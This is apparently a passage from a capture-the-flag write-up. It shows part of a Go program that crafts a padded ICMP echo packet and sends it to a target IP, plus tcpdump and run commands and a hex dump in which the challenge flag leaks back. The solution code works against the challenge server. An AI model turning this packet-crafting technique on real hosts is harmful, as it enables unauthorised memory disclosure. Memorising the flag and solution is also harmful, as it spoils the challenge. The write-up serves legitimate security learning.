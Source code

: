 ```go  
	responseFill := bytes.Repeat([]byte("B"), (responseOffset - (payloadOffset + len(payload)) + responseSize))  
	data = append(data, responseFill...)

	// Make a new ICMP message  
	m := icmp.Message{  
		Type: ipv4.ICMPTypeEcho, Code: 0,  
		Body: &icmp.Echo{  
			ID: rand.Int(), Seq: rand.Int(),  
			Data: data,  
		},  
	}  
	packet, err := m.Marshal(nil)  
	if err != nil {  
		panic(err)  
	}

	conn, err := net.Dial("ip4:icmp", targetIP)  
	if err != nil {  
		log.Fatalf("Dial: %s\n", err)  
	}

	n, err := conn.Write(packet)  
	if err != nil {  
		panic(err)  
	}  
	fmt.Printf("write %d bytes\n", n)  
	fmt.Println(hex.Dump(packet))  
}  
```

- Source: [./packetforge/main.go](./packetforge/main.go)

Now fire a tcpdump in a window:

```  
sudo tcpdump -n host 34.159.43.116 -X  
```

and run that script:

```  
sudo go run ./packetforge/main.go  
```

And the flag should show up on the tcpdump window:

```  
	0x0000:  4500 0077 db92 0000 3c01 e215 229f 2b74  E..w....<...".+t  
	0x0010:  c0a8 b222 0000 59cd fd52 164f 4141 4141  ..."..Y..R.OAAAA  
	0x0020:  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA  
	0x0030:  dd48 d0cf d310 3cd4 4242 4242 4242 4242  .H....<.BBBBBBBB  
	0x0040:  4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB  
	0x0050:  4472 676e 537b 6338 6439 3862 3037 6434  DrgnS{c8d98b07d4  
	0x0060:  6332 6634 6133 6363 6332 6663 3130 6234  c2f4a3ccc2fc10b4  
	0x0070:  6636 3238 3135 7d                        f62815}  
```
